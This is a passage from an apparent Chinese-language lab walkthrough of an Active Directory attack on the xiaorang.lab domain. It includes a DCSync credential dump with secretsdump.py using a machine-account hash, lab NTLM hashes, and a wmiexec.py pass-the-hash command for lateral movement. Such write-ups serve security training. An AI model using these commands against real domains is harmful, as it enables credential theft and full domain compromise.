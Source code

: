 ```plain
[*] Stopping service RemoteRegistry
```

获取`FILESERVER$`用户哈希为`951d8a9265dfb652f42e5c8c497d70dc`，接下来凭借机器用户哈希去获取域控哈希

## DcSync 攻击

借助`secretsdump.py`工具导出域控哈希

```plain
proxychains secretsdump.py xiaorang.lab/'Fileserver$':@172.22.60.8 -hashes ':951d8a9265dfb652f42e5c8c497d70dc' -just-dc-user Administrator
```

[![](assets/1706846898-3d550322198f09c40c1113f23884c68b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214334-baab7968-c03e-1.png)

获取域控哈希`c3cfdc08527ec4ab6aa3e630e79d349b`

## 横向传递

借助`wmiexec.py`工具横向

```plain
proxychains python3 wmiexec.py -hashes :c3cfdc08527ec4ab6aa3e630e79d349b Administrator@172.22.60.15 -codec gbk
```

[![](assets/1706846898-6be40f8d4b0f7c8926dbe14e60e1cdcd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214341-bef2071c-c03e-1.png)
